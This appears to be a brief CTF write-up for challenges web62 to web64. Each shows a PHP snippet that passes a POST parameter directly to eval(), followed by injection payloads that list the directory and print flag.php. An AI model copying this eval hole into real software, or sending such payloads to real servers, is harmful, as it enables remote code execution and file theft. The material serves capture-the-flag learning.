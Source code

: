 ------

#### web62

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname('__FILE__')));

c=highlight_file("flag.php");
```

------

#### web63

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}

```

**payload**

```
c=print_r(scandir(dirname('__FILE__')));

c=highlight_file("flag.php");
```

---

#### web64

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname(__FILE__)));

c=highlight_file("flag.php");
```
